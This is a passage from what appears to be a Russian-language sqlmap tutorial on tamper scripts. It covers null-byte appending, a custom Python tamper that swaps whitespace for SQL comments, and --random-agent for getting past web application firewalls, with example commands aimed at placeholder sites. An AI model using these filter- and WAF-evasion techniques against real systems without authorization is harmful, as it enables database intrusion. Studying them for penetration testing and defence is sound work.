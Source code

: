 ```sql
SELECT * FROM users WHERE username LIKE 'admin'
```

**appendnullbyte.py:**

Добавляет нулевой байт (null byte) к каждому параметру.

```sql
SELECT * FROM users WHERE id=1
```

становится:

```sql
SELECT * FROM users WHERE id=1%00
```
##### Создание собственных tamper-скриптов

Вы также можете создать свои собственные tamper-скрипты. Для этого нужно создать Python-скрипт, который изменяет переданный SQL-запрос. Вот пример простого tamper-скрипта, который заменяет пробелы на комментарии:

```python
import re

def tamper(payload, **kwargs):
    if payload:
        return re.sub(r'\s+', '/**/', payload)
    return payload
```

Этот скрипт можно сохранить в файл с расширением .py и использовать его с SQLMap:

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --tamper=path/to/your/custom_script.py
```

Для получения полного списка доступных tamper-скриптов можно использовать команду:


```
python sqlmap.py --tamper=LIST
```
#### Блокировка брандмауэром веб-приложений - WAF

Попробуйте использовать другой пользовательский агент, а не sqlmap по умолчанию с `--random-agent`параметром.

```
python3 sqlmap.py -u "http://mytestsite.com/page.php?id=5" --random-agent
```


#### Дополнительные команды и опции:

Справка: Для получения списка всех опций и команд можно использовать:

```
python sqlmap.py --help
```

